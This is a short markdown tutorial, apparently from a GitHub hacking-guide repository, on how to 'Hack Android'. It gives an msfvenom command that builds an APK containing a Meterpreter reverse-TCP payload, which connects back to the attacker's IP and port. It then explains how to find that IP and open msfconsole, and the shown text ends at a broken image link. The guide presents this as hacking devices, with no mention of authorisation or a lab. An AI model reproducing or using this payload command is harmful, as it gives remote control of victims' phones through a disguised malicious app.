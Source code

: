 after [Installing Metasploit](https://github.com/Muhammad-Mirab/Peneterator-Panter/blob/master/Insatlling%20Metasploit.md) now you are able to hack some devices like Android,Windows etc. and today we're going to show you how can you Hack Android

so at the first we need root permission then we have to build a payload for android!

`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your ip address> LPORT=4444 R > <the name that you wanna choose for your application>.apk`

![payload for android](https://cdn1.imggmi.com/uploads/2019/10/28/0cd4ae12e138046ae9ceac05f553381e-full.png)

you can find your ip address by executing `ifconfig`:

![ifconfig](https://cdn1.imggmi.com/uploads/2019/10/28/dd2c5976eb3908daf26c3418ab1063d0-full.png)

then enter measploit by executing `msfconsole`.

![msfconsole]
